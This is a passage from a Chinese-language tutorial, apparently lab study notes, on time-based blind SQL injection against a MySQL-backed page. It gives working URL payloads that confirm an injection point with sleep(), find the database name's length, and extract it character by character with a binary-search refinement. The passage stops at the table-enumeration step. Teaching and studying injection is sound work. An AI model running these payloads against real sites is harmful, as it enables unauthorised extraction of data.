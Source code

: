 ```sql
sleep(3)            # MySQL延迟3秒
benchmark(5000000,md5(1))  # 计算密集型延迟
```

------

## 2️⃣ 确认注入点

和布尔盲注一样，先判断是否能触发延迟：

```sql
?id=1' and if(1=1, sleep(3), 1) --+   # 页面延迟3秒，说明注入点成立
?id=1' and if(1=2, sleep(3), 1) --+   # 页面秒回，说明条件为假
```

这样确认是 **时间型盲注点**。

------

## 3️⃣ 爆数据库名长度

```sql
?id=1' and if(length(database())=8, sleep(3), 1) --+
```

- 如果延迟，说明长度=8
- 如果不延迟，继续换数值

------

## 4️⃣ 爆数据库名逐字符

```sql
?id=1' and if(ascii(substr(database(),1,1))=115, sleep(3), 1) --+
```

解释：

- `substr(database(),1,1)` → 数据库名第 1 个字符
- `ascii()` 转成 ASCII 码
- 等于 115 时触发延迟

**优化**：结合二分法

```sql
?id=1' and if(ascii(substr(database(),1,1))>110, sleep(3), 1) --+
```

- 根据响应快慢来判断范围，效率比一个个猜高很多。

------

## 5️⃣ 枚举表名 / 列名

### 表名
